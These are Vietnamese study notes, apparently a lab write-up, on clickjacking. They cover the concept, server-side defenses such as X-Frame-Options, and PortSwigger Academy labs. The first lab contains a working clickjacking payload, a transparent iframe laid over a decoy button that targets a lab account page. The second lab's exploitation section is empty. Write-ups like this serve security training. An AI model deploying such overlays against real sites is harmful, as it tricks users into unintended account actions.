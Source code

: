 # Clickjacking

## Khái niệm

Clickjacking là một cuộc tấn công dựa trên giao diện trong đó người dùng bị lừa nhấp vào nội dung có thể hành động trên một trang web ẩn bằng cách nhấp vào một số nội dung khác trong trang web giả mạo.

Một cuộc tấn công bằng clickjacking sử dụng các tính năng dường như vô hại của HTML và JavaScript để buộc nạn nhân thực hiện các hành động không mong muốn, chẳng hạn như nhấp vào một nút ẩn thực hiện một thao tác ngoài ý muốn. Đây là một vấn đề bảo mật phía máy khách ảnh hưởng đến nhiều trình duyệt và nền tảng khác nhau.

- Clickjacking là một hình thức tấn công đánh lừa người dùng nhấp chuột vô ý vào một đối tượng trên website. Khi nhấp chuột vào một đối tượng trên màn hình, người dùng nghĩ là mình đang click vào đối tượng đó nhưng thực chất họ đang bị lừa click vào một đối tượng khác > đã bị làm mờ hay ẩn đi. Kẻ tấn công có thể sử dụng kỹ thuật tấn công này cho nhiều mục đích. Đánh cắp tài khoản người dùng, lừa click vào quảng cáo để kiếm tiền, lừa like page hoặc nguy hiểm hơn là cài một webshell lên máy chủ web.

![image](https://hackmd.io/_uploads/BJRJogSkJg.png)

## prevent

Cách phòng tránh
Ngày nay để ngăn chặn tấn công Clickjacking khá dễ dàng. Có 2 phương diện để phòng tránh Clickjacking bao gồm từ phía client và server.

Về phía Client, cách phòng tránh tốt nhất là người dùng nên cảnh giác đối với những đường link lạ với các nội dung hướng người dùng đến việc click chuột như: Click để nhận phần thưởng, Click để quay số vv...
Về phía Server sẽ có nhiều cách để phòng tránh Clickjacking:
Sử dụng tùy chọn X-Frame: Giải pháp này của Microsoft là một trong những giải pháp hiệu quả nhất chống lại các cuộc tấn công clickjacking trên máy tính của bạn. Bạn có thể bao gồm tiêu đề HTTP X-Frame-Options trong tất cả các trang web của bạn. Điều này sẽ ngăn không cho trang web của bạn bị nhúng vào trong 1 khung thông qua các thẻ như: `<frame>, <iframe>, <object>`. X-Frame được hỗ trợ bởi các phiên bản mới nhất của hầu hết các trình duyệt bao gồm Safari, Chrome, IE.

Di chuyển các phần tử trên trang của bạn: Hacker chỉ có thể tấn công Clickjacking khi biết nó cấu trúc của trang web và từ đó đặt được những điểm Click ẩn. Bằng cách di chuyển phần tử đó liên tục đến các vị trí khác nhau, Hacker sẽ rất khó để có thể lợi dụng lỗ hổng trên để khai thác. Vấn đề duy nhất với giải pháp này là sẽ khiến người dùng cảm thấy khó tiếp cận và sử dụng trang web.

Sử dụng URL một lần: Đây là một phương pháp khá tiên tiến để bảo vệ chống lại những kẻ lừa đảo. Bạn có thể làm cho cuộc tấn công trở nên khó khăn hơn nhiều nếu bạn sử dụng URL 1 lần vào các trang quan trọng. Việc sử dụng url 1 lần khiến hacker không thể nhúng url vào trong trang web để thực hiện khai thác. Điều này tương tự như nonces được sử dụng để ngăn chặn CSRF nhưng độc đáo theo cách nó bao gồm nonces trong các URL để nhắm mục tiêu các trang, không phải trong các hình thức trong các trang đó (khá giống với cách Wordpress sử dụng wp-nonce trên URL).

## Lab

## 1.Lab: Basic clickjacking with CSRF token protection

link: https://portswigger.net/web-security/clickjacking/lab-basic-csrf-protected

### Đề bài

![image](https://hackmd.io/_uploads/rylR9TeH1Jl.png)

### Khai thác

```htmlembedded
<style>
    iframe {
        position:relative;
        width:1000px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top:515;
        left:60;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://0a75007603626346808d947f005500f3.web-security-academy.net/my-account"></iframe>
```

## 2. Lab: Exploiting clickjacking vulnerability to trigger DOM-based XSS

link: https://portswigger.net/web-security/clickjacking/lab-exploiting-to-trigger-dom-based-xss

### Đề bài

![image](https://hackmd.io/_uploads/ryfzNbSkyl.png)

### Phân tích

Việc dùng iframe để điền tự động form dựa trên việc truyền tham số qua URL thường khai thác khả năng của các trang web để xử lý truy vấn hoặc dữ liệu được gửi qua URL. Cụ thể, cách thức hoạt động có thể được mô tả như sau:

Cơ chế GET với URL Parameters:

Khi một trang web sử dụng phương thức GET để gửi dữ liệu, dữ liệu thường được đính kèm ngay trong URL dưới dạng các tham số truy vấn (query parameters). Ví dụ: https://example.com/form?name=Cuong&email=test@example.com.
Khi tải trang này, trang có thể đọc các tham số name và email từ URL và tự động điền vào các trường tương ứng trong form.
Tương tác với iframe:

Nếu trang web được nhúng vào một iframe, và URL của trang đó bao gồm các tham số truy vấn chứa dữ liệu (như tên, email...), trang bên trong iframe có thể lấy dữ liệu này và tự động điền vào form mà không cần người dùng tương tác thủ công.
Các trang web thường có JavaScript hoặc code phía backend để đọc các tham số từ URL và hiển thị dữ liệu này trong các trường của form.
Kịch bản điền form tự động:

Trang chính (trang chứa iframe) có thể định nghĩa URL của iframe sao cho nó chứa các tham số truy vấn thích hợp, ví dụ:
html
Sao chép mã
`<iframe src="https://example.com/form?name=Cuong&email=test@example.com"></iframe>`
Khi trang form trong iframe được tải, các giá trị name và email từ URL sẽ được nhận biết và tự động điền vào form.
Tính năng này có thể bị khai thác:

Nếu một trang không kiểm tra chặt chẽ các tham số được truyền qua URL, nó có thể bị lợi dụng cho các mục đích không mong muốn, chẳng hạn như tự động điền form mà người dùng không biết.
Ví dụ, có thể sử dụng tính năng này để lừa người dùng submit form mà họ không nhận ra, điều này liên quan đến lỗ hổng như Cross-Site Request Forgery (CSRF).
Tóm lại, khi tham số được truyền qua URL và trang web xử lý chúng mà không kiểm soát kỹ càng, nó có thể dẫn đến việc form được điền tự động từ các trang bên ngoài thông qua iframe.

### Khai thác
